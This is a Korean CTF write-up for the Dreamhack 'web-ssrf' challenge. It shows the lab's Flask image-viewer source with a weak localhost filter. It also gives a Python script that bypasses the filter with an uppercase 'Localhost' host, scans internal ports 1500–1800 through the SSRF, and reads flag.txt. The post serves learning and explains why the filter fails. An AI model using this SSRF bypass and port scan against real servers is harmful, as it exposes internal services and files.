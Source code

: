 ```yaml
---
title: "[CTF] web-ssrf"
date: 2025-09-19 21:20:00 +0900
categories: [CTF, Web]
tags: [CTF, SSRF]
description: "드림핵 web-ssrf"
author: "송지민"
toc: true
---
```


## 문제 개요

이번 문제는 외부 이미지를 받아와 base64로 인코딩해 보여주는 간단한 이미지 뷰어이다. 내부적으로는 `requests.get()`로 URL을 가져오며, 내부 localhost(127.0.0.1) 또는 `localhost` 도메인을 포함하면 미리 준비된 `error.png`를 대신 반환한다. 그러나 내부에서 별도로 띄운 로컬 HTTP 서버가 `127.0.0.1:1500-1800` 사이의 랜덤 포트로 실행 중이므로, SSRF를 이용해 해당 포트에서 `flag.txt`를 읽어올 수 있다.

* 엔드포인트: `/img_viewer` (GET: 폼, POST: `url` 파라미터로 이미지 URL 전송)
* 핵심 취약점: 외부 URL을 서버에서 가져오지만, localhost 필터 우회 및 내부 포트 스캐닝으로 내부 서버 자원 접근 가능
* FLAG 위치: `/flag.txt` (애플리케이션 루트)

---

## 문제에 제공된 원본 소스코드

아래는 문제에서 제공된 `app.py` 전체 소스코드이다.

```python
#!/usr/bin/python3
from flask import (
    Flask,
    request,
    render_template
)
import http.server
import threading
import requests
import os, random, base64
from urllib.parse import urlparse

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()  # Flag is here!!
except:
    FLAG = "[**FLAG**]"


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/img_viewer", methods=["GET", "POST"])
def img_viewer():
    if request.method == "GET":
        return render_template("img_viewer.html")
    elif request.method == "POST":
        url = request.form.get("url", "")
        urlp = urlparse(url)
        if url[0] == "/":
            url = "http://localhost:8000" + url
        elif ("localhost" in urlp.netloc) or ("127.0.0.1" in urlp.netloc):
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
            return render_template("img_viewer.html", img=img)
        try:
            data = requests.get(url, timeout=3).content
            img = base64.b64encode(data).decode("utf8")
        except:
            data = open("error.png", "rb").read()
            img = base64.b64encode(data).decode("utf8")
        return render_template("img_viewer.html", img=img)


local_host = "127.0.0.1"
local_port = random.randint(1500, 1800)
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)


def run_local_server():
    local_server.serve_forever()


threading._start_new_thread(run_local_server, ())

app.run(host="0.0.0.0", port=8000, threaded=True)
```

---

## 내가 실제로 푼 방법

서버는 `localhost`/`127.0.0.1`을 포함하는 URL에 대해 직접 차단(대신 `error.png` 반환)을 하고, URL이 `/`로 시작하면 `http://localhost:8000`으로 강제 변환한다. 그러나 문제는 서버 내부에 별도로 `127.0.0.1`에서 `1500`\~`1800` 사이의 랜덤 포트로 로컬 HTTP 서버가 띄워져 있다는 점이다. 이 서버는 외부에서 직접 알려주지 않으므로 포트를 스캔해 찾아야 한다.

우회 전략은 다음과 같다.

1. `/img_viewer`에 POST로 `url`을 보낼 때, `localhost` 필터링에 걸리지 않는 형태(예: `Localhost` 대소문자 조합)를 사용하거나, 프로토콜/호스트 표기에서 필터를 우회한다. (문제의 소스는 `"localhost" in urlp.netloc` 체크를 사용하므로 `Localhost`처럼 대소문자 변경으로 우회 가능하다.)
2. 1500\~1800 범위의 포트를 하나씩 시도해 내부 서버가 응답하는 포트를 찾는다. 내부 서버가 해당 포트에 있으면 `requests.get()`이 성공하고, 반환된 이미지(base64 문자열)를 이용해 내부 파일(`/flag.txt`)를 가져올 수 있다.

내가 사용한 포트 스캐닝 스크립트(요약):

```python
#!/usr/bin/python3
import requests
import sys
from tqdm import tqdm

# `src` value of "NOT FOUND X"
NOTFOUND_IMG = "iVBORw0KG"

def send_img(img_url):
    global chall_url
    data = {
        "url": img_url,
    }
    response = requests.post(chall_url, data=data)
    return response.text
    
    
def find_port():
    for port in tqdm(range(1500, 1801)):
        img_url = f"http://Localhost:{port}"
        if NOTFOUND_IMG not in send_img(img_url):
            print(f"Internal port number is: {port}")
            break
    return port
    
    
if __name__ == "__main__":
    chall_port = int(sys.argv[1])
    chall_url = f"http://host1.dreamhack.games:{chall_port}/img_viewer"
    internal_port = find_port()
```

* 스크립트는 challenge 엔드포인트에 `url` 파라미터로 `http://Localhost:{port}`을 보내고, 응답 HTML에 포함된 base64 이미지의 시작값(`iVBORw0KG`)을 검사하여 정상 이미지인지(=internal server responded) 확인한다. `error.png`의 base64는 `iVBORw0KG`로 시작하므로 이를 기준으로 필터한다.

포트를 찾으면 최종적으로 다음과 같이 요청해 내부 서버에서 `flag.txt`를 가져온다:

```
http://Localhost:{FOUND_PORT}/flag.txt
```

이 값을 `/img_viewer`에 넣어 POST하면, 서버가 내부 포트에서 파일 내용을 가져와 base64로 인코딩해 HTML에 넣어준다. 브라우저에서 img src에 포함된 base64를 디코딩하면 flag.txt의 내용이 나온다.

---

## 재현 흐름

1. 공격자: 포트 스캐너 스크립트 실행 → `/img_viewer`에 차례로 `http://Localhost:{port}` 전송
2. 서버: 내부 포트에서 응답이 있을 때 HTML에 정상 이미지(base64) 포함
3. 공격자: 정상 응답 포트 확인 → `/img_viewer`에 `http://Localhost:{found_port}/flag.txt` 전송
4. 서버: 내부 서버에서 `flag.txt`를 가져와 base64로 인코딩해 HTML에 포함 → 공격자가 디코딩하여 FLAG 확인

---

## 왜 이게 가능했나

* 서버는 내부 `127.0.0.1`/`localhost` 접근을 단순히 문자열 포함 검사로 차단했으며, 이 검사는 대소문자나 포맷 조작으로 우회될 수 있다.
* 내부 HTTP 서버가 외부에 알려지지 않은 포트 범위(1500–1800)에 실행되고 있어, 포트 스캐닝으로 해당 포트를 찾을 수 있다.
* 서버가 가져온 컨텐츠를 그대로 base64로 변환해 페이지에 넣기 때문에 내부 파일 내용도 노출 가능했다.

---

## 마무리

이번 문제는 전형적인 SSRF + 포트 스캐닝 결합 문제였다. `localhost` 필터를 단순 문자열 검사로 처리하거나, 내부 서비스 포트를 미리 알려주지 않는다고 해도 포트 스캐닝과 소문자/대문자 우회로 쉽게 내부 리소스에 접근할 수 있음을 보여준다.
